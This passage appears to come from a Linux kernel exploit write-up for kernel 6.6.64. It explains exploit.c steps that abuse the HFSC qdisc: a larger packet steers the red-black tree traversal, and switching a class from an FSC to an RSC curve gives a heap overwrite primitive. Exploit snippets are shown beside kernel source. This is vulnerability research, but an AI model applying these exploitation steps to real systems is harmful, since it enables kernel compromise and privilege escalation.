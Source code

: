 [[exploit.c#L1286]](../exploit/lts-6.6.64/exploit.c#L1286)
```c
trigger_qdisc_enqueue_with_bigger_packet(heap_read_primitive->raw_packet_socket, heap_read_primitive->rb_tree_interface_ifindex);
```
- `trigger_qdisc_enqueue_with_bigger_packet()` send a packet bigger in size than `trigger_qdisc_enqueue()`. The packet size is part of `->cl_e` calculation process.
- Testing with this setup showed that we always followed `->rb_right` as expected.
- Back when the exploit use `trigger_qdisc_enqueue()` here instead, sometimes the exploit fail because it followed `->rb_left` (testing showed 90% -> 100% success)
- Now, Qdisc_C->q.qlen == 1. This is the qdisc linked with `class_D`.
- Modify class_D object from `HFSC_FSC` flag to `HFSC_RSC` flag to trigger this kernel code path: `hfsc_change_class()` -> `init_ed()`. Overwrite primitive achieved.
[[exploit.c#L1288]](../exploit/lts-6.6.64/exploit.c#L1288)
```c
struct tc_service_curve rsc_D = { .m1 = 1, .m2 = 1, .d = 0 };
change_hfsc_class(
	heap_read_primitive->route_socket,
	heap_read_primitive->rb_tree_interface_ifindex,
	heap_read_primitive->rb_tree_interface_qdisc_A_handle,
	heap_read_primitive->rb_tree_interface_classid_D,
	&rsc_D,
	NULL,
	NULL
);
```
- Kernel view of last step:
```c
static int
hfsc_change_class(struct Qdisc *sch, u32 classid, u32 parentid,
		  struct nlattr **tca, unsigned long *arg,
		  struct netlink_ext_ack *extack)
{
	struct hfsc_sched *q = qdisc_priv(sch);
	struct hfsc_class *cl = (struct hfsc_class *)*arg;
	struct hfsc_class *parent = NULL;
	struct nlattr *opt = tca[TCA_OPTIONS];
	struct nlattr *tb[TCA_HFSC_MAX + 1];
	struct tc_service_curve *rsc = NULL, *fsc = NULL, *usc = NULL;
	u64 cur_time;
	int err;

	if (opt == NULL)
		return -EINVAL;

	err = nla_parse_nested_deprecated(tb, TCA_HFSC_MAX, opt, hfsc_policy,
					  NULL);
	if (err < 0)
		return err;

	if (tb[TCA_HFSC_RSC]) {
		rsc = nla_data(tb[TCA_HFSC_RSC]);
		if (rsc->m1 == 0 && rsc->m2 == 0)
			rsc = NULL;
	}
	/* Writeup note: Deleted code for clarity */

	if (cl != NULL) {
		int old_flags;
		/* Writeup note: Deleted code for clarity */

		sch_tree_lock(sch);
		old_flags = cl->cl_flags;

		if (rsc != NULL)
```